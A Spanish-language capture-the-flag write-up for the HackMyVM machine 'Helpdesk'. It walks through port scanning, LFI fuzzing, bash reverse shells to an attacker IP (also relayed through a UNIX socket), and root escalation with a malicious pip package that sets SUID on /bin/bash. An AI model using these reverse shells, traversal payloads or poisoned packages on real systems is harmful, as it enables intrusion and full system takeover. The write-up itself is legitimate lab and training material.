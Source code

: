 # Helpdesk - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Helpdesk** de la
plataforma HackMyVM.\
Durante la explotación tocaremos las siguientes técnicas:

-   Escaneo de puertos
-   Enumeración de directorios
-   Fuzzing para descubrir un parámetro PHP
-   LFI (Local File Inclusion)
-   Abuso de sockets UNIX
-   Escalada de privilegios con `pip3`

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.156
```

``` java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b4:bc:42:f6:d0:a7:0d:fd:71:01:3d:8a:c5:0c:ac:e3 (ECDSA)
|_  256 71:90:08:58:14:04:09:d5:cf:31:ee:87:17:ad:29:8f (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: HelpDesk Ticket System

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 se muestra un sistema de HelpDesk muy limitado:

![alt text](./posts/img/helpdesk001.png)

Pasamos a enumerar directorios con **gobuster**:

``` bash
gobuster dir -u http://192.168.1.156/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html -t 20
```

Resultados interesantes:

    /login.php   (Status: 200)
    /ticket.php  (Status: 200)
    /panel.php   (Status: 302 -> login.php)
    /debug.php   (Status: 200)

En `/debug.php` aparecen credenciales falsas (honeypot).\
En `/ticket.php` solo aparece el texto *"Ticket Viewer"* vacío:

![alt text](./posts/img/helpdesk002.png)

Esto sugiere que el archivo podría aceptar parámetros. Probamos fuzzing
con **ffuf**:

``` bash
ffuf -u 'http://192.168.1.156/ticket.php?FUZZ=../../../../../../../../etc/passwd' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 204
```

Encontramos un parámetro vulnerable a **LFI**:

![alt text](./posts/img/helpdesk003.png)

## Explotación

Explorando archivos del sistema vía LFI, en `login.php` encontramos
comentarios con credenciales en texto claro:

![alt text](./posts/img/helpdesk004.png)

Accedemos con ellas en `/login.php` y entramos a `/panel.php`, donde hay
ejecución de comandos:

![alt text](./posts/img/helpdesk005.png)

Nos enviamos una reverse shell:

``` bash
nc -lvnp 9001
```

``` bash
bash -i >& /dev/tcp/192.168.1.152/9001 0>&1
```

``` bash
Ncat: Connection from 192.168.1.156
www-data@helpdesk:/var/www/html$
```

## Escalada de privilegios

En `/opt` encontramos un servicio con **sockets UNIX**:

``` bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -la
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 24 17:38 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

Podemos enviar comandos al socket con **socat**:

``` bash
echo "id" | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

Esto nos permite ejecutar comandos como **helpdesk**.\
Nos mandamos una shell como ese usuario:

``` bash
echo 'bash -i >& /dev/tcp/192.168.1.152/9001 0>&1' | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
helpdesk@helpdesk:/$
```

Comprobamos permisos sudo:

``` bash
sudo -l
```

    User helpdesk may run the following commands on helpdesk:
        (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *

Podemos abusar de esto creando un paquete Python malicioso.

### Paquete Malicioso

En la máquina atacante:

``` bash
mkdir -p paquete_malicioso/paquete_malicioso
cd paquete_malicioso
```

``` python
echo 'import os; os.system("chmod +s /bin/bash")' > paquete_malicioso/__init__.py
```

``` python
echo "from setuptools import setup, find_packages; setup(name='paquete_malicioso', version='0.1.0', packages=find_packages())" > setup.py
```

``` bash
python3 setup.py sdist
python3 -m http.server 8000
```

En la víctima:

``` bash
wget http://192.168.1.152:8000/dist/paquete_malicioso-0.1.0.tar.gz
sudo /usr/bin/pip3 install --break-system-packages ./paquete_malicioso-0.1.0.tar.gz
```

Esto le da el bit SUID a `/bin/bash`.\
Ejecutamos:

``` bash
bash -p
```

¡Y somos root! 🎉